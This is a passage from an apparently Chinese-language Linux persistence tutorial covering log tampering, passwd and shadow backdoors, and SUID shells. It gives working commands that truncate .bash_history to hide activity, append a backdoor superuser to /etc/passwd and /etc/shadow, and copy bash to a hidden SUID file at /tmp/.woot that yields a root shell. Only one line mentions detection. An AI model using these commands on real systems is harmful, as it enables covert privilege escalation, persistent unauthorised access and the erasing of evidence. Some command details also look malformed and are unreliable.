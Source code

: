 删除大规模历史操作记录，这里，我们只保留前150行：

```
sed -i '150,$d' .bash_history
```



#### 1.4 passwd写入

```
/etc/passwd 各部分含义： 用户名：密码：用户ID：组ID：身份描述：用户的家目录：用户登录后所使用的SHELL

/etc/shadow 各部分含义： 用户名：密码的MD5加密值：自系统使用以来口令被修改的天数：口令的最小修改间隔：口令更改的周期：口令失效的天数：口令失效以后帐号会被锁定多少天：用户帐号到期时间：保留字段尚未使用 
```

写入举例：

##### 1.增加超级用户

```
$perl -le 'print crypt("momaek","salt")' savbSWc4rx8NY 
$echo "momaek:savbSWc4rx8NY:hacker:/root:/bin/bash" >> /etc/passwd
```

##### 2.如果系统不允许uid=0的用户远程登录，可以增加一个普通用户账号

```
echo "momaek:savbSWc4rx8NY:-1:-1:-1:-1:-1:-1:500" >> /etc/shadow
```



### 0x02 SUID后门

当一个文件所属主的x标志位s(set uid简称suid)时，且所属主为root时，当执行该文件时，其实是以root身份执行的。必要条件：

1. SUID权限仅对二进制程序有效。  
2. 执行者对于该程序需要具有x的可执行权限 
3. 本权限仅在执行该程序的过程中有效   
4. 在执行过程中执行者将具有该程序拥有者的权限

创建suid权限的文件：

```
$cp /bin/bash /tmp/.woot 
$chmod 4755 /tmp/.woot 
$ls -al /.woot 
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 .woot
```

使用一般用户运行：

```
$/tmp/.woot  
$/tmp/.woot -p    //bash2 针对 suid 有一些护卫的措施，使用-p参数来获取一个root shell
```

检测：查找具有suid权限的文件即可
